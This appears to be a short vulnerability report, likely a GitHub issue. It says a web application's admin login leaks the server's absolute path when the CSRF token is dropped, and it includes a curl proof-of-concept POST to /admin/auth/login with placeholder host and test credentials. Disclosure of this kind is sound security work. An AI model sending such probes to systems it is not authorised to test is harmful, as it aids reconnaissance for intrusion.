 # There is an absolute path leak vulnerability  
The absolute path leakage of the website caused by deleting the CSRF token when the backend requests login
## poc

 ```
curl -i -s -k -X $'POST' \
    -H $'Host: {hostname}' -H $'Content-Length: 33' -H $'Sec-Ch-Ua: \"(Not(A:Brand\";v=\"8\", \"Chromium\";v=\"99\"' -H $'X-Csrf-Token: P9A63wYKU6jJtITypCb46zKA3q8RFJQgof0snK85' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36' -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H $'Accept: */*' -H $'X-Requested-With: XMLHttpRequest' \
    --data-binary $'\x0d\x0ausername=123456&password=123456' \
    $'https://{hostname}/admin/auth/login'
```
![image](https://user-images.githubusercontent.com/131442419/233589434-0f6b3212-7f58-4da7-ae9d-c6ff80c8b97e.png)
